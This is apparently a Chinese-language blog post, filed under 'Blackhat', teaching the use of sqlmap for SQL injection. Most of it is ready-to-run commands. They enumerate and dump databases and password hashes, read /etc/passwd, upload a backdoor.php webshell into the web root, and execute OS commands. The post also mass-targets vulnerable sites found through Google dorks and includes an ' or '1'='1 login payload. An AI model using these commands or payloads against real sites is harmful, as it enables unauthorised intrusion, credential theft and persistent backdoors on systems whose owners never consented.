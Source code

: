 ```yaml
---
title: sql注入工具sqlmap的使用详解
name: how-to-use-sqlmap
date: 2016-5-19
tags: [sqlmap,sql注入]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# SQL注入工具sqlmap的使用详解

## 1. 背景

**[sqlmap](https://github.com/sqlmapproject/sqlmap)**是python语言实现的sql注入工具，它使用简单，功能强大。不仅仅能简单的获取目标用户数据库信息，也可根据不同操作系统渗透上传webshell。sqlmap已经是metasploit中标准的sql注入工具。

sql注入问题是老深长谈的安全问题了，直至今日仍居**[oswap10](http://www.owasp.org.cn/owasp-project/download/OWASPTop102013V1.2.pdf)**大安全问题之首。sql的注入大多存在于php和asp的web应用中，java由于有preparement代替statement，所以现在已经很少出现了。时至今日，在google中按**google dock**的条件搜索，仍不乏很多站点的sql注入漏洞，可以轻而易举的使用sql注入的工具攻破站点。

## 2. 前提

找到目标注入点，使用"**单引号**"测试URL地址是否存在注入漏洞，判别标准看结果页面是否存在异常、错误或者空白，这些反映都能直接体现出注入点是否可用。

**源地址URL**：http://www.site.com/section.php?id=51
**注入点URL**：http://www.site.com/section.php?id=51'

## 3. 基本使用

下面方法中能正确获取目标系统数据库所有信息、包含操作系统识别、服务识别以及数据库表中的数据。获取站点登陆用户名及其密码，进行后台入口扫描登陆等操作。

```shell
# 检查参数是否可以注入，识别操作系统及数据库版本
sqlmap -u http://www.site.com/section.php?id=51

# 识别指纹信息
sqlmap -u http://www.site.com/section.php?id=51 -b

# 枚举数据库
sqlmap -u http://www.sitemap.com/section.php?id=51 --dbs

# 枚举指定数据库中表
sqlmap -u http://www.site.com/section.php?id=51 --tables -D [数据库名称]

# 枚举表中的列
sqlmap -u http://www.site.com/section.php?id=51 --columns -D [数据库名称] -T [表名]

# 获取表中数据
sqlmap -u http://www.site.com/section.php?id=51 --dump -D [数据库名称] -T [表名]
# 指定列名枚举表中数据
sqlmap.py -u http://www.site.com/section.php?id=51 --dump -D [数据库名称] -T [表名] -C [列名1,列名2,列名3]

# 运行sql
sqlmap -u http://www.site.com/section.php?id=51 --sql-query="select now();"

# 枚举用户列表和角色
sqlmap -u http://www.site.com/section.php?id=51 --users --passwords --privileges --roles --threads=10
```

## 4. 高级使用

读取系统服务器本地文件、执行系统服务器shell命令、上传自己的webshell，根据不同操作系统会有不同的命令使用方法。

```shell
# 判别当前数据库用户是否具有dba权限
sqlmap -u http://www.site.com/section.php?id=51 --current-user --is-dba --current-db --hostname --threads=10

# 若是dba，开启上传漏洞，可以上传自己的上传webshell
sqlmap -u http://www.site.com/section.php?id=51 --os-cmd -v 1

# 读取用户密码进行hash破解
sqlmap -u http://www.site.com/section.php?id=51 --password -v 1

# 读取系统文件
sqlmap -u http://www.site.com/section.php?id=51 --file-read=/etc/passwd --threads=10

# 上传文件
sqlmap -u http://www.site.com/section.php?id=51 --file-write /root/backdoor.php \
    --file-dest=/var/www/html/backdoor.php

# 执行系统命令
sqlmap -u http://www.site.com/section.php?id=51 --os-cmd id -v 1
```

## 5. 撒网捕鱼

这属于撒网捕鱼，通过搜索引擎批量获取存在sql注入的站点进行渗透操作

```shell
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"
```

## 6. 注入问题

**出现”testing connection to the target url”的错误？**

可以尝试随机使用user-agent的方式访问，–random-agent，模拟chrome或者firefox的请求方式。

**碰到rest请求的sql注入应该怎么做？**

如：http://www.site.com/class_name/method/43/80，此时sqlmap不知道注入点在哪里，你可以使用＊号指定注入点，如：http://www.site.com/class_name/method/43*/80

**post注入点使用–data操作？**

对于登陆类型的post表单，sqlmap的语法会有所不同，http://www.site.com/form.php，http://www.site.com/form_submit.php
注入点是http://www.site.com/form_submit.php，另外需要找到表单中的参数名称，可以使用浏览器的dom查看。比如：参数名称是username
sqlmap -u http://www.site.com/form_submit.php –data=”username=avc”
data选项告诉sqlmap是一个post请求，现在如果你足够幸运，sqlmap会很快注入成功，但大多数情况并不会这么顺利。
如果第一个sqlmap报告不可注入，可以尝试使用魔数作为参数的值，如
sqlmap -u http://www.site.com/form_submit.php –data="username=' or '1'='1"

**之前渗透的结果和注入点如何找回？**

操作过注入点及dump出的数据结果将会保存在用户目录下的".sqlmap/output"目录中。